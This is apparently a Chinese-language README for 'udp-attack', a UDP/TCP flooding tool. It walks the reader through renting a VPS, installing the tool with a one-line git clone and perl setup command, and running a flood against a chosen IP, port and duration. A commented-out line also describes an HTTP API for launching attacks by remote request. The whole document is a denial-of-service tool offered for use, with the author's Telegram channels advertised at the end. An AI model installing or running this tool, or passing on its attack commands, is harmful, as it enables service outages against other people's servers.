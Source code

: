 # udp-attack 一个简单的udp攻击程序
# 版本：1.0
# 发布时间：2020/02/06
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
现在开始安装，，，
<br>
<pre>cd /root && yum install -y git wget curl net-tools && git clone https://github.com/KLDGodY/udp-attack.git && cd udp-attack && mv ./* ../ && cd ../ && perl setup.pl</pre>
<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
<!-- 当然你也可以用api攻击，地址是<pre>http://你的服务器地址/api.php?key=系统密码&host=[host]&port=[port]&time=[time]&method=[method]</pre>-->
说一下，method有3种模式，分别是udp，tcp，和stop，，
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodynb">@kldgodynb</a><br>欢迎各位dl加入，，，
